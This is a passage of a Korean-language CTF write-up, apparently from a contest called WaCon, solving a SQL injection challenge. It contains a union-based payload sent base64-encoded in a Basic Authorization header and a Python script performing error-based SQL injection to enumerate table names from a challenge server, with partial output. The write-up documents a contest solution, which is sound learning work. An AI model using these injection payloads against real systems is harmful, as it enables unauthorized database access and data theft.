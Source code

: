 POST로 요청을 보낼 때는 Content-Type: application/x-www-form-urlencoded 같이 Content-Type를 헤더에 넣어서 보내야 하는 것 같다. 여기서 꽤 오랜 시간 삽질했다.. \(HTTP Header에 대한 공부가 더 필요해 보인다.\)
​​<br>​<br>아무튼 이번엔 SQL : user not found 가 출력된다. SQL Injection을 통해 ID와 PW를 알아내고 Authorization: Basic 으로 보내주면 해결할 수 있을 것 같다. SQL Injection을 확인해 보기 위해 **'**를 넣어  admin':admin을 보내보았다. 
​​<br>​<br>

![Untitled](/assets/img/post_images/WaCon/15.png)
​
SQL의 에러가 출력된다. SQL Injection을 통해 admin의 비밀번호를 알아내야 하는 것으로 보인다.
​
아래의 payload를 base64로 encode 하여 요청을 보내보니
​​​<br>​<br>
```sql
admin'union select 1,2,table_name from information_schema.tables#:admin
```
​
![Untitled](/assets/img/post_images/WaCon/16.png)
​
from localhost only ! 라고 출력된다. 로그인에 성공한 것으로 보이지만 column의 개수가 3개 라는 것 만 알 수 있을 뿐 admin의 password는 알 수 없다. 따라서 Error Based SQL Injection이 좋아 보인다.
​​​​<br>​<br>
[Error Based SQL Injection](https://hyunmini.tistory.com/17)  ← 이 블로그를 참조해 스크립트를 작성해 보았다. 
​
```python
import requests, base64
​
URL = "http://114.203.209.112:8000/internal_1d607d2c193b.php"
​
for i in range(62):
    data = {'hi':'hi'}
    payload = "admin' union (select 1,count(*),concat((select table_name from information_schema.tables limit "+str(i)+",1),'$',floor(rand(0)*2))as b from information_schema.tables group by b)#:admin"
    encoded = (base64.b64encode(payload.encode('ascii')))
    encoded_payload = encoded.decode('ascii')
    headers = {"Content-Type": "application/x-www-form-urlencoded",'Authorization': "Basic "+encoded_payload}
    res = requests.post(URL, data=data, headers=headers)
​
    print(res.text[115:150])
​
​
"""
--생략--
'INNODB_SYS_TABLESPACES$1' for key 
```